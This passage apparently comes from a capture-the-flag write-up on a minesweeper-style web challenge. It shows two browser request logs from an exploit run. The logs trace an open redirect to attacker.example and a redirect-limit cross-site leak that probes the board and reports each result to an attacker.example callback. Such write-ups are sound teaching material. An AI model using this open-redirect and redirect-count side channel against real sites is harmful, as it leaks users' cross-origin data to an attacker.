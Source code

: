 ```hl_lines=17 22 23
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=18&url=https%3A%2F%2Fgosweeper.example%2Fboard
// ...
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=4&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://attacker.example/callback/bomb
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=3&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=2&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=1&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=0&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://gosweeper.example/board
[DEBUG]   - 200 https://attacker.example/callback/bomb
```

And here is the same thing when it is a safe spot:

```hl_lines=17 22 25
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=18&url=https%3A%2F%2Fgosweeper.example%2Fboard
// ...
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=4&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://attacker.example/callback/bomb
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=3&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=2&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=1&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=0&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://gosweeper.example/board
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```